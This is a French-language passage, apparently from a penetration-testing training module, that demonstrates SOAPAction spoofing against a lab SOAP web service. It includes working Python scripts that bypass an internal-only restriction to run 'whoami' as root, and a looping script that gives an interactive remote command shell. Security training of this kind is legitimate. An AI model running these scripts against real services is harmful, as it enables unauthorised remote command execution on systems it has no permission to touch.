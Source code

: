 Nous obtenons une erreur mentionnant *Cette fonction n'est autorisée que dans les réseaux internes* . Nous n'avons pas accès aux réseaux internes. Est-ce à dire que nous sommes bloqués ? Pas encore! Essayons une attaque par usurpation SOAPAction, comme suit.

Construisons un nouveau script Python pour notre attaque d'usurpation SOAPAction (enregistrez-le sous `client_soapaction_spoofing.py`).

Code : Python

```
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)

```

-   Nous spécifions *LoginRequest* dans `<soap:Body>`, afin que notre demande aboutisse. Cette opération est autorisée de l'extérieur.
-   Nous spécifions les paramètres de *ExecuteCommand* car nous voulons que le service SOAP exécute une `whoami`commande.
-   Nous spécifions l'opération bloquée ( *ExecuteCommand* ) dans l'en-tête SOAPAction

Si le service Web détermine l'opération à exécuter uniquement sur la base de l'en-tête SOAPAction, nous pouvons contourner les restrictions et demander au service SOAP d'exécuter une `whoami`commande.

Exécutons le nouveau script.

```
dsgsec@htb[/htb]$ python3 client_soapaction_spoofing.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'

```

Notre `whoami`commande a été exécutée avec succès, contournant les restrictions via le spoofing SOAPAction !

Si vous souhaitez pouvoir spécifier plusieurs commandes et voir le résultat à chaque fois, utilisez le script Python suivant (enregistrez-le sous `automate.py`).

Code : Python

```
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)

```

